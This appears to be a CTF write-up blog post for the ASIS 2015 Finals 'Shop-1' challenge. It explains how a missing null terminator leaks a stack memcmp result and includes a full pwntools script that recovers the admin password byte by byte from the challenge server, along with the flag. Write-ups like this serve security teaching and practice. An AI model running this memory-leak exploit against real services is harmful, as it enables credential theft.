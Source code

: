 ```yaml
---
layout: post
title: "ASIS 2015 Finals: Shop-1"
modified: 2015-10-14
tags: asis, asis2015finals, pwn
---
```


The main vulnerability for getting the admin password is that if you send in a maximum length username (32 bytes) and password (64 bytes) then no string terminating null character was written. Also, usernames and passwords were checked with memcpy and exact length instead of strcpy.

As the program prints out the logged in username this leads to leaking out the next value in the stack: the memcmp result of the admin password.

{% highlight c %}
char username[32]; // [sp+20h] [bp-70h]@3
char password[64]; // [sp+40h] [bp-50h]@3
int memcmpResult; // [sp+80h] [bp-10h]@5
{% endhighlight %}

So the attack was basically: 
 - try to login with admin and the password you leaked so far (empty at first) plus "~" (0x7e)
    - although this will lead to failed login, the memcpy result won't be cleared
    - I am using 0x7e because it is the last readable ASCII character and comparison with password will give smaller results
 - try to login with username "guest" + "A"*(32-5) and password "guest" + "A"*(64-5)
 - read the leaked value, this will be the positive difference between "~" and the next character from the password
 - logout and try again, until you found the password and can login as admin :)
 
The admin password (=flag):
{% highlight text %}
ASIS{304b0f16eb430391c6c86ab0f3294211}
{% endhighlight %}

### Exploit code

{% highlight python %}
#!/usr/bin/env python
from pwn import *
import re

adminPass = ""
foundPass = False

r = remote('185.106.120.220', 1337)

def getResult(currPass):
    global foundPass
    r.recvuntil("Username:")
    password = "guest"+"A"*(64-5)
    r.send("admin\n"+currPass+"\nguest"+"A"*(32-5)+"\n"+password+"\n8\n")
    if not "Unknown username" in r.recvline():
        foundPass = True
        return "x"

    r.recvuntil("in as guest")
    result = r.recvline()[:-1].split(password)[1]
    return result

chars = [chr(x) for x in xrange(32,127)]
print "Chars = %s" % chars

for i in xrange(45):
    result = getResult(adminPass + "~")
    if foundPass:
        break
    nextChar = chr(ord("~") - ord(result[0]))
    adminPass += nextChar
    print "found char = %s => %s (calc)" % (nextChar, adminPass)

if foundPass:
    print "Admin password = %s" % adminPass
else:
    print "Admin password not found :("
{% endhighlight %}